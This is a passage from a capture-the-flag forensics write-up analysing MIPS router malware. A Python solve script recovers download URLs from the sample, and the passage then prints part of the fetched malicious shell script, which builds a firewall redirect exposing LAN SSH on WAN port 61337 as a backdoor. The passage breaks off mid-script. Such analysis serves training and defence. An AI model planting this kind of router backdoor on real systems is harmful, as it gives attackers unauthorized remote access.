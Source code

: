 ```python
# just using ghidra output to build these array manually they are pretty useless for us anyways you will see.

# i probably didnt take endianess into account while reading the c and d arrays but i didnt waste too much time on them because i got the necessary urls 

c=[0x9a,0x6f,0x65,0xf0,0xad,0xf4,0xe4,0x7e,0x4e,0x93,0x70,0x69,0x8e,0xc5,0xe1,0x55,0x3a,0xf5,0x5f,0xc1,0x0] 
d=[0x9a,0x6f,0x65,0xf0,0xad,0xf4,0xf2,0x7e,0x4a,0x8c,0x46,0x63,0x90,0x82,0xea,0x40,0xc8]




p=decrypt(enc1)
q=decrypt(enc2)
r=decrypt(c)
s=decrypt(d)


print("a="+"".join(chr(i) for i in p))
print("b="+"".join(chr(i) for i in q))
print("c="+"".join(chr(i) for i in r))
for i in d:
    print(chr(i),end="")
```


output:
```bash
av@tokyo:~/ctf/htb-university-ctf/for
$ python3 solve.py
[!] Could not populate MIPS GOT: seek out of range
[!] Did not find any GOT entries
[*] '/home/av/ctf/htb-university-ctf/for/dead-reanimation'
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
34
a=http://configs.router.htb/dead_reanimated_mNmZTMtNjU3YS00î
b=http://configs.router.htb/reanimate.sh_jEzOWMtZTUxOS00¤
c=E~g\x1aütu²C¼BºJM¶ÞÏ\x03
oeð­ôò~JFcê@È
av@tokyo:~/ctf/htb-university-ctf/for
$
```

Nice ! so we got our urls we can now use wget and look at these files .

```bash
av@tokyo:~/ctf/htb-university-ctf/for/configs
$ cat reanimate.sh
#!/bin/sh

WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)

CONFIG="config redirect         \n\t
	option dest 'lan'           \n\t
	option target 'DNAT'        \n\t
	option name 'share'         \n\t
	option src 'wan'            \n\t
	option src_dport '61337'    \n\t
	option dest_port '22'       \n\t
```